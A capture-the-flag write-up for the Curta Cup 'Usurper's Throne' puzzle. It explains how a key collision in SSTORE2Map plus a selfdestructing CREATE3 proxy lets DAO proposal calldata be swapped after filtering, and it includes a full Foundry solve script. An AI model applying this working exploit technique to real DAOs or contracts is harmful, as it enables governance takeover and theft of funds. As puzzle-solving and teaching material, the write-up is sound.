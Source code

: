 ```yaml
---
author: '0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149'
contributors: ['0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149']
adapted_from: "https://github.com/chainlight-io/publications/tree/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/Usurper's%20Throne"
---
```


## Overview

This challenge is meant to test a competitors understanding of [`SSTORE2Map`](https://github.com/0xsequence/sstore2/blob/0a28fe61b6e81de9a05b462a24b9f4ba8c70d5b7/contracts/SSTORE2Map.sol). Specifically, why is the stored data [prefixed with a `00` byte](https://github.com/0xsequence/sstore2/blob/0a28fe61b6e81de9a05b462a24b9f4ba8c70d5b7/contracts/SSTORE2Map.sol#L46)? Why is it critical that the stored data cannot be executed?

To make the challenge more interesting, the logic of the [CREATE3](https://github.com/0xsequence/create3) library was also modified to `selfdestruct` the proxy contract, allowing both the proxy contract and (potentially) the data contract to be redeployed.

In this challenge, the map was used to store DAO proposal `calldata` payloads, and were filtered before storing. The DAO also stored proposal descriptions (`string`) in this manner, but in a way that enabled collisions on the map key. As the descriptions were unfiltered, a collision between one proposal's description and another's `calldata` could cause the `calldata` to be modified after verification, allowing filtered methods to be called by the DAO.

## Solving the puzzle

The challenger needs to get the DAO to call two methods: `forgeThrone` and `addUsurper`. The `forgeThrone` call is easy to execute by simply using the DAO as intended. To craft a call to `addUsurper`, you must perform the following steps:

1. Pick a arbitrary, unused proposal ID, say `x`.
2. Construct a proposal with `id = keccak256(x, x)` with payload data beginning with the `forgeThrone` selector (`0x6d2cd781`) that can be self-destructed. To do this, notice that the first byte (`6d`) is a `PUSH14` opcode, meaning that when executed, the first 15 bytes of the proposal will execute as a valid instruction. Simply placing a `selfdestruct` (`0xff`) after this instruction will suffice.
   Execute the payload contract created above, self-destructing it.
3. Execute the payload contract created above, self-destructing it.
4. Create a new proposal with `id = x` with any payload data, but with description equal to the new payload data: `abi.encodeWithSelector(Throne.addUsurper.selector, solver)`. This will recreate the payload contract for proposal `keccak(x, x)`, but with no validation checks.
5. Vote for and execute proposal ID `keccak256(x, x)`.

### Solve script

Check out our solve script below for more details.

```sol fileName="Solve.s.sol"
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {Throne} from "../src/Throne.sol";
import {DAO} from "../src/DAO.sol";

contract Voter {
    constructor(
        DAO dao,
        uint256 id
    ) {
        dao.vote(id);
        assembly {
            selfdestruct(0)
        }
    }
}

bytes32 constant SLOT_KEY_PREFIX = 0x06fccbac10f612a9037c3e903b4f4bd03ffbc103781cbe821d25b33299e50efb;
bytes32 constant KECCAK256_PROXY_CHILD_BYTECODE = 0x648b59bcbb41c37892d3b820522dc8b8c275316bb020f043a9068f607abeb810;

function addressOf(address addr, bytes32 _salt) pure returns (address) {
    address proxy = address(
      uint160(
        uint256(
          keccak256(
            abi.encodePacked(
              hex'ff',
              addr,
              _salt,
              KECCAK256_PROXY_CHILD_BYTECODE
            )
          )
        )
      )
    );

    address c = address(
        uint160(
            uint256(
            keccak256(
                abi.encodePacked(
                hex"d6_94",
                proxy,
                hex"01"
                )
            )
            )
        )
    );
    return c;
}

function internalKey(bytes32 _key) pure returns (bytes32) {
    // Mutate the key so it doesn't collide
    // if the contract is also using CREATE3 for other things
    return keccak256(abi.encode(SLOT_KEY_PREFIX, _key));
}

contract Solver {
    uint256 constant REQUIRED_VOTES = 3;

    Throne immutable throne;
    DAO immutable dao;
    address immutable solver;
    uint256 immutable solution;

    constructor(Throne _throne, address _solver) {
        throne = _throne;
        dao = throne.dao();
        solver = _solver;
        solution = uint256(keccak256(abi.encode(solver)));
    }

    function createIds(uint256 seed, uint256 count) internal pure returns (uint256[] memory result) {
        result = new uint256[](count);
        for (uint256 i = 0; i < count; i++) {
            seed = uint256(keccak256(abi.encode(seed, seed)));
            result[i] = seed;
        }
    }

    function doVotes(uint256 id) internal {
        for (uint256 i = 0; i < REQUIRED_VOTES-1; i++) {
            new Voter(dao, id);
        }
    }

    function stage1() public {
        uint256[] memory ids = createIds(uint256(keccak256("ChainLight")), 4);

        dao.createProposal(
            ids[3],
            address(throne),
            abi.encodeWithSelector(Throne.forgeThrone.selector, solution),
            ""
        );
        doVotes(ids[3]);
        dao.execute(ids[3]);

        // create data which can be selfdestructed
        bytes memory data = hex"6d2cd7810000000000000000000000ff";
        dao.createProposal(ids[1], address(throne), data, "");

        address dataAddress = addressOf(address(dao), internalKey(bytes32(ids[1])));

        // selfdestruct the data
        (bool success, ) = address(dataAddress).call("");
        require(success);
    }

    function stage2() public {
        uint256[] memory ids = createIds(uint256(keccak256("ChainLight")), 4);

        bytes memory desc = abi.encodeWithSelector(Throne.addUsurper.selector, solver);
        bytes memory data = abi.encodeWithSelector(Throne.forgeThrone.selector);
        dao.createProposal(ids[0], address(throne), data, string(desc));

        doVotes(ids[1]);
        dao.execute(ids[1]);
    }
}

contract Solve is Test {
    Throne throne;
    Solver solver;

    function setUp() public {
        throne = Throne(0x6d353b5FB19d63791FAf8a2e4B5Fa8D32519a8A3);//new Throne();
        stage1();
    }

    function stage1() public {
        address me = 0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149;
        solver = new Solver(throne, me);
        solver.stage1();
    }

    function stage2() public {
        address me = 0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149;
        solver.stage2();
        require(throne.verify(throne.generate(me), uint256(keccak256(abi.encode(me)))), "not solved");
    }

    function test() public {
        stage2();
    }
}
```
